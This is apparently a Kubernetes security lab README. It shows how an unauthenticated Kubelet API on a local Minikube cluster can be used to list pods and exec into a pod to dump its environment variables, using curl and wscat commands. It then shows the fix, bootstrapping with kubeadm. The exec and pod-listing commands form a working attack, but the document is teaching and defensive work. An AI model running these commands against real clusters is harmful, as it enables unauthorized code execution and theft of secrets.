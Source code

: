 ### Attack the Kubelet API [WIP]
The Kubelet API is responsible for the master to node communication within a Kubernetes cluster. If you expose your nodes to the internet without some important configurations in place you are going to have a bad time. From the official Kubernetes docs:
"By default, requests to the Kubelet’s HTTPS endpoint that are not rejected by other configured authentication methods are treated as anonymous requests, and given a username of system:anonymous and a group of system:unauthenticated."

So let's exploit this "misconfiguration" within Minikube.

## Task 1: Spin up a default Kubernetes cluster

1. Start Minikube using the default localkube bootstrapper:
```
export MINIKUBE_HOME=~/Desktop/lab-tools/.kube
minikube delete
minikube start
```

2. The Kubelet API runs on every node in a cluster. If an individual has network access to a node in the kubernetes cluster, they are able to do some interesting things by default, including "exec-ing" into running pods.
```
# port 10250 is the read/write port that the Kubelet API uses for communication to the master node
minikube ip
curl --insecure https://$(minikube ip):10250/pods | jq
# jq is a tool to prettify JSON output - it is optional
```

3. As you can see, using a default implementation of Minikube (and many other kubernetes production bootstrappers) we are able to list all of the pods running on a given node with a simple `curl` command. This seems bad, right? Let's try to Exec and do some real damage. First, we launch some victim pods to take over. In the `manifests` directory, run the following command:
```
kubectl create -f .
kubectl get pods
```

4. Now we have our unshorten-api Deployment and Service up and running we can extract details from them using the same `curl` command we used before:
```
curl --insecure https://$(minikube ip):10250/pods | jq
```

5. In the `metadata` field of the JSON output for our Pod you will find the pod name (remember, this curl command is NOT authenticated. An attacker can see this info without the proper settings in place!). The value will look something like `"name": "link-unshorten-8746d649b-7k8w2",`

6. Now, we take that Pod name and run another curl command. Reading Pod data is interesting but we want to do some damage:
```
curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://$(minikube ip):10250/exec/default/link-unshorten-8746d649b-7k8w2/unshorten-api-container?command=env&input=1&output=1&tty=1"
```

7. This opens a stream which we can access using [wscat](https://www.npmjs.com/package/wscat). Take note of the `location:` header as we will be using that value to read from the stream. You can install `wscat` using the link above. Once `wscat` is installed, run the following command:
```
wscat -c "https://$(minikube ip):10250/cri/exec/<valueFrom302>" --no-check
```

You can use cURL too:
### !! Please note that this command only works reliably with the newer versions of cURL. If you are getting errors, try updating cURL !!
```
curl -k --include \
     --no-buffer \
     --header "Connection: Upgrade" \
     --header "Upgrade: websocket" \
     --header "Sec-WebSocket-Key: SGVsbG8sIHdvcmxkIQ==" \
     --header "Sec-WebSocket-Version: 13" \
     https://$(minikube ip):10250/cri/exec/<valueFrom302>
```

8. These are *all of the environment variables* for our unshorten-api pod, printed to the screen, unauthenticated.

See any issues here?

## Task 2: Fix the Issue
There are a number of way to address the kubelet-api "misconfiguration" issue. To do this locally, our most simple solution is to bootstrap our cluster using the `kubeadm` bootstrapper. Out of the box, Minikube still uses `localkube` to build clusters. `localkube` runs every cluster component as a single binary in the Kubernetes environment. This project is in the process of being deprecated in favor of `kubeadm` which offers us a much more robust solution that matches production clusters more closely.
```
minikube delete
minikube start --bootstrapper kubeadm
```

1. Run our `curl` command from before. We see that the response is `Forbidden` which is due to how `kubeadm` bootstraps clusters. `kubeadm` implements authorization of the kubelet by default. Let's take a look at this setting under the hood:
```
curl --insecure https://$(minikube ip):10250/pods
```

2. SSH into our Minikube node and take a look at our kubelet config:
```
minikube ssh
sudo cat /etc/kubernetes/kubelet.conf
```

3. You will see that our config defines a set of certificates which successfully enables authentication between the Master and Nodes.

### Note: `kubeadm` does this by default but this is not always the case for other bootstrap mechanisms or scratch-built clusters! Always manually check that this configuration is enforced!

### Discussion Question: Is your kubelet api configured to block these attacks?
